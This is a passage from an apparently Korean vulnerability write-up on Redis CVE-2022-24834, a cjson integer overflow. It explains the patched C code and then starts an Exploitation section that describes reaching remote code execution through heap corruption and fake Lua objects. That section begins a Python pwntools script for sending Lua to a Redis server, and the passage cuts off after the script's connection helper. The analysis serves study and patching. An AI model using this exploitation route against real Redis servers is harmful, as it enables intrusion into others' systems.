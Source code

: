 ```c

    strbuf_append_char_unsafe(json, '\"');
    for (i = 0; i < len; i++) {
        escstr = char2escape[(unsigned char)str[i]];
        if (escstr)
            strbuf_append_string(json, escstr);
        else
            strbuf_append_char_unsafe(json, str[i]);
    }
    strbuf_append_char_unsafe(json, '\"');
}
```

`json_append_string` 함수는 `[1]`에서 볼 수 있는 것처럼 Integer Overflow가 발생하는지 확인하는 부분을 추가되었습니다. 추가된 부분에서는 아키텍처에 따라 64비트나 32비트의 unsigned integer의 최댓값으로 정의되는 `SIZE_MAX`를 6으로 나누고 3을 뺀 값과 `len`을 비교합니다.

 만약 `len`이 더 크다면 `strbuf_ensure_empty_length` 함수 호출을 위해 `len * 6 + 2`를 계산하는 과정에서 Integer Overflow가 발생하기 때문에 `abort()`를 호출하여 프로세스를 종료합니다.

## `strbuf_ensure_empty_length` : Patched

```c
static inline void strbuf_ensure_empty_length(strbuf_t *s, size_t len)
{
    if (len > strbuf_empty_length(s))
        strbuf_resize(s, s->length + len);
}
```

`strbuf_ensure_empty_length` 함수에서는 두 번째 인자인 `len`의 자료형이 `int`에서 `size_t`로 변경되는 것으로 패치되었습니다. 따라서 기존과 같은 방법으로는 Integer Overflow가 발생하지 않게 되었고 `strbuf_empty_length` 또한 `size_t`를 반환하도록 변경되었습니다.

따라서 패치 이후 Integer Overflow를 유발하기 위해서는 64비트를 기준으로 길이가 대략 0x2AAAAAAAAAAAAAAB인 문자열을 전달해야 하고 이는 실용적이지 못하며 Integer Overflow가 발생하더라도 `json_append_string`함수에서 탐지되어 프로세스가 종료됩니다.

이외에도 해당 취약점과 유사하거나 같은 방식으로 Integer Overflow가 발생할 가능성이 있는 부분에 Integer Overflow를 검사하는 코드가 추가되거나 `int` 자료형을 사용하던 부분이 `size_t` 나 다른 64비트 정수 자료형으로 대체되었습니다.

# 4. Exploitation

---

해당 취약점을 악용하면 Heap Corruption을 발생시켜 Denial of Service나 힙에 할당된 Lua Object를 덮어쓰고 Fake Object를 구성하여 Remote Code Execution이 가능합니다.

익스플로잇을 하기 위해서는 Redis Server에 접속하고 Lua 스크립트를 전송할 필요가 있기 때문에 아래와 같은 python코드를 사용합니다.

```python
# redis_cve-2022-24834.py
import pwn
import threading
import subprocess
import sys

pwn.context.log_level = "debug"

class Redis:
    def __init__(self, host='192.168.45.250', port=6379):
        self.host = host
        self.port = port
        self.conn = None

    def prepare(self, data):
        if isinstance(data, int):
            return f":{data}\r\n".encode()
        elif isinstance(data, str):
```